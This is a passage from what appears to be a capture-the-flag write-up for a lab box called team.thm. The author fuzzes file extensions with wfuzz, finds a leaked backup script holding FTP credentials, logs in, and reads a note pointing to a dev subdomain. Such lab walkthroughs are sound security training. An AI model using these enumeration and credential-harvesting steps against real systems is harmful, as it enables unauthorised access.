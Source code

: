 
It looks like there is some extension that wasn't in my GoBuster search. I decided to use wfuzz to find the extension.
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~/team.thm]
└─$ wfuzz -w /usr/share/wordlists/wfuzz/general/medium.txt team.thm/scripts/script.FUZZ >> url_fuzzing.txt
...
└─$ cat *.txt | grep 200                                                     
000000015:   404        9 L      31 W       270 Ch      "2000"      
000000017:   404        9 L      31 W       270 Ch      "2002"      
000000014:   404        9 L      31 W       270 Ch      "200"       
000000018:   404        9 L      31 W       270 Ch      "2003"      
000000016:   404        9 L      31 W       270 Ch      "2001"      
000000200:   404        9 L      31 W       270 Ch      "beverly"   
000001037:   200        18 L     44 W       466 Ch      "old"       
000001200:   404        9 L      31 W       270 Ch      "publico"  
```
In the results, we can see that .old is what we are looking for.
```
└─$ cat script.old
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

```

`ftpuser:T3@m$h@r3`



I was able to connect with ftp using the above creds and I found `/workshare/New_site.txt`
```
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles 

```
Let's add dev.team.thm to /etc/hosts.
